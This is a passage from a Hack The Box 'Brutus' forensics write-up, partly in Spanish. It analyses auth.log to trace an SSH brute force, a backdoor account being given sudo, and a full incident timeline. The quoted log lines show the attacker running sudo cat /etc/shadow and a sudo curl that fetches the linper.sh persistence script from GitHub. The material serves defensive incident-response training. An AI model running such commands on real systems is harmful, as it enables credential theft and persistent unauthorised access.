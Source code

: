 > **`A7.`** **279 seconds**

### **`Q8.`** **The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

A las 06:39:38, 'cyberjunkie' ejecutó un comando usando sudo para descargar un script desde una URL.

```terminal
/home/kali/Documents/htb/sherlocks/brutus:-$ cat auth.log | grep sudo           
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
```

Este comando descargó el script linper.sh desde una URL de GitHub usando 'curl'.

> **`A8.`** **/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh**
 
---
### Timeline

| Time (UTC) | Description                            | Reference |
| :--------- | :------------------------------------- | :-------: |
|	06:18:01   | First entry in auth.log. 	            | auth.log  |
|	06:31:33   | SSH brute force start 			            | auth.log  |
|	06:31:40   | root SSH login successful 	            | auth.log  |
|	06:31:42   | SSH brute force stop 		              | auth.log  |
|	06:32:44   | SSH login as root 			                | auth.log  |
|	06:32:45   | Terminal session starts as root        | wtmp      |
|	06:34:18   | cyberjunkie user and group created 	  | auth.log  |
|	06:35:15   | cyberjunkie added to sudo group        | auth.log  |
|	06:37:24   | root session disconnects 		          | auth.log  |
|	06:37:34   | SSH login as cyberjunkie 	            | auth.log  |
|	06:37:35   | Terminal session starts as cyberjunkie | wtmp      |
|	06:37:57   | cyberjunkie accesses /etc/shadow 	    | auth.log  |
|	06:39:38   | cyberjunkie downloads linper.sh 	      | auth.log  |
|	06:41:01   | Last entry in auth.log 		            | auth.log  |

> <a href="https://labs.hackthebox.com/achievement/sherlock/1521382/631" target="_blank">***Litio7 has successfully solved Brutus from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
{: .prompt-tip}
